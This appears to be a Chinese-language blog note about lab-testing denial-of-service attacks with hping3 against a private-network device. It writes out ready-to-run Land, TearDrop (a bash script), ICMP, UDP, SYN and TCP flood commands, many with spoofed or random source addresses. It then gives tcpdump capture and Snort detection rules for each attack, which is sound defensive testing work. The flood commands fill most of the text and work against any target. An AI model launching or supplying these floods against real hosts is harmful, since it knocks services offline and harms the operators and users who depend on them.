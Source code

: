 ```yaml
---
title: "Hping3攻击测试DDOS"
date: 2023-09-15T20:27:33+08:00
draft: false
tags: ["ddos", "hping3", "synflood"]
categories: ["笔记"]
author: "dcq"

contentCopyright: '<a rel="license noopener" href="https://en.wikipedia.org/wiki/Wikipedia:Text_of_Creative_Commons_Attribution-ShareAlike_3.0_Unported_License" target="_blank">Creative Commons Attribution-ShareAlike License</a>'
---
```


#### 1. 攻击工具

1. hping3: 是用于生成和解析TCPIP协议数据包的开源工具。

2. 攻击机器：192.168.200.178

3. 被攻击机器：
   
   1. 设备名称：激光发送端
   
   2. 设备ip: 192.168.200.107

#### 2. 抓包工具

1. Tcpdump

2. 抓包脚本
   
   ```shell
   $sudo tcpdump -i enp4s0 port 443 -n
   ```

#### 3. 攻击脚本

1. land攻击
   
   > 攻击者发送SYN报文的源地址和目标地址同为被攻击者的IP地址，导致被攻击者向其自己的地址发送SYN-ACK消息，使被攻击者主机存在大量空连接。不同被攻击者对Land攻击反应不同，UNIX主机将崩溃，Windows NT主机的运行状态会变的极其缓慢。
   
   ```shell
   $hping -V -c 100 -d 40 -S -p 139 -s 80 -k -a 192.168.200.107 ...
   -S：设置SYN flag标志位为1，即发送SYN报文；
   
   -p 445：被攻击的目标端口 TCP 445；
   
   192.168.200.107：被攻击的目标地址；
   
   -a 192.168.200.107：被攻击者的IP源地址；
   
   -c 10：仅发送攻击报文10个；
   
   --fast： alias for -i u10000 (10 packets for second)；
   
   --faster：alias for -i u1000 (100 packets for second)；
   -d 500 设置TCP playload为500字节
   --flood：sent packets as fast as possible. Don't show replies；
   sudo hping3 -d 500 -S -p 445 192.168.254.3 -a 192.168.254.3 –flood 
   ```

2. TearDrop攻击
   
   1. 攻击脚本
      
      ```shell
      $vim teardrops.sh
      $#!/bin/bash
      
      function teardrop()
      {
          local victim_ip=$1
          local id_begin=$2
          local id_end=$3
      
          for((id=${id_begin}; id<${id_end}; id++))
          do
              hping3 --icmp ${victim_ip} --data 1000 --id ${id} --count 1 --morefrag
              hping3 --icmp ${victim_ip} --data 200 --id ${id} --count 1 --fragoff 400
          done
      }
      
      teardrop $*
      $保存
      ```

3. ICMP Flood 攻击
   
   1. 攻击脚本
      
      ```shell
      #发送icmp报文到192.168.200.107，伪造随机源IP地址，洪水攻击
      $sudo hping3 --icmp 192.168.200.107 --rand-source --flood
      $sudo hping3 --icmp 192.168.200.107
      $sudo hping3 -q -n -d 200 --icmp --flood -a 28.28.28.28 192.168.200.107
      ```

4. UDP Flood 攻击
   
   1. 攻击脚本
      
      ```shell
      # 发送udp报文到192.168.200.107:443
      $sudo hping3 --udp 192.168.200.107 -p 443
      
      # 发送 udp 报文 到 192.168.1.1:443。伪造随机源地址，洪水攻击。
      $sudo hping3 --udp 192.168.200.107 -p 443 --rand-source --flood
      
      $sudo hping3 --udp -s 6666 -p 443 -a 29.29.29.29 --flood 192.168.180.133
      ```

5. SYN Flood 攻击
   
   1. 攻击脚本
      
      ```shell
      # 通过eth1，发送SYN报文到 192.168.200.107:443。伪造源地址为192.168.180.131，时间间隔1000us。
      $ sudo hping3 -I enp4s0 -S 192.168.200.107 -p 443 -a 192.168.180.131 -i u1000
      
      # 通过eth1，发送SYN报文到192.168.200.107:443，伪造随机源地址，时间间隔1000us。
      $sudo hping3 -I enp4s0 -S 192.168.200.107 -p 443 --rand-source -i u1000
      
      # 通过 eth1，发送SYN报文到192.168.200.107:443，伪造随机源地址，洪水攻击。
      # 洪水攻击，速率最快的攻击，不会显示数据和丢包的统计。
      $sudo hping3 -I enp4s0 -S 192.168.200.107 -p 443 --rand-source --flood
      
      $sudo hping3 -c 1000 -d 120 -S -p 443 --flood --rand-source 192.168.180.133
      $sudo hping3 -S -P -U -p 80 --flood --rand-source 192.168.180.133
      
      TCP Flood
      
      $sudo hping3 -SARUPF -p 80 --flood --rand-source 192.168.180.133
      ```

#### 4. snort rules

* 规则/etc/snort/rules/local.rules
  
  ```shell
   alert tcp any any -> any any (msg:"Possible DDOS attack"; flags:S; threshold: type both, track by_src, count 1, seconds 1; sid:100001; rev:1;)
   alert tcp any any -> $HOME_NET any (flags: S; msg:"Possible DoS Attack Type : SYNflood"; flow:stateless; sid:100002; detection_filter:track by_dst, count 10, seconds 3;)
   #TearDrop 攻击
   alert ip any any -> any any (fragoffset:0; fragbits:M; id:2465; msg:"Possible Teardrop attack detected"; sid:100003;)
   alert udp any any -> any any (msg:"Possible TearDrop attack detected!"; dsize: < 64; sid:100004;)
   #ICMP Flood 攻击
   alert icmp any any -> any any (msg:"Possible ICMP Flood attack detected"; threshold: type both, track by_src, count 1, seconds 1; sid:100005; rev:1;)
   alert icmp any any -> $HOME_NET any (msg:"ICMP flood"; sid:100006; rev:1; classtype:icmp-event; detection_filter:track by_dst, count 10, seconds 3;)
   #UDP Flood 攻击
   alert udp any any -> any any (msg:"Possible UDP Flood attack"; threshold: type both, track by_src, count 1, seconds 1; sid:100007; rev:1;)
   #SYN Flood 攻击
   alert tcp any any -> any any (msg:"Possible SYN Flood attack"; flags:S; threshold: type both, track by_src, count 1, seconds 1; sid:100008; rev:1;)
   alert tcp any any -> any any (flags: S; threshold: type both, track by_src, count 100, seconds 10; msg:"Possible SYN Flood Attack"; sid:100009; rev:1;)
  ```
